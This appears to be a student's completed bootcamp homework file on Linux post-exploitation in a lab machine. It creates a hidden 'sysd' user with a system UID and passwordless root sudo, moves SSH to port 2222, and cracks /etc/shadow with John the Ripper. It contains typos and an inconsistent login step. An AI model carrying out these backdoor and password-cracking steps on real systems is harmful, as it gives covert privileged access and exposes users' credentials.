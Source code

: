 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd`

    <img src="/Week_6_HW/IMAGE/adduser.png">

![descprition](IMAGE/adduser.png)
    

2. Give your secret user a password: 
    - `1234`
    

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 888 sysd`
    

4. Give your secret user the same GID:
   - `sudo groupmod -g 888 sysd`

   <img src="/Week_6_HW/IMAGE/UIDGID.png">

![descprition](IMAGE/UIDGID.png)
    

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo then in visudo I typed sysd ALL=(ALL:ALL) NOPASSWD:ALL`

    verify no home dir:
    <br>
   <img src="/Week_6_HW/IMAGE/nohome.png">

![descprition](IMAGE/nohome.png)

   

6. Test that `sudo` access works without your password:

    ```bash
    (ALL : ALL) NOPASSWD: ALL
    ```
    <img src="/Week_6_HW/IMAGE/bash.png">

![descprition](IMAGE/bash.png)


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 2222
    ```

    <img src="/Week_6_HW/IMAGE/ruffwater.png">

![descprition](IMAGE/ruffwater.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemcrl restart ssh`

    <img src="/Week_6_HW/IMAGE/listening.png">

![descprition](IMAGE/listening.png)

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

    <img src="/Week_6_HW/IMAGE/port2222.png">

![descprition](IMAGE/port2222.png)

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

    <img src="/Week_6_HW/IMAGE/loginhacker.png">

![descprition](IMAGE/loginhacker.png)


2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `john /etc/shadow`

    This was sooooo coooool!

    <img src="/Week_6_HW/IMAGE/john.png">

![descprition](IMAGE/john.png)

I know it looks like a typo but I ran it again as you can see with shadow not shaow lol.

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


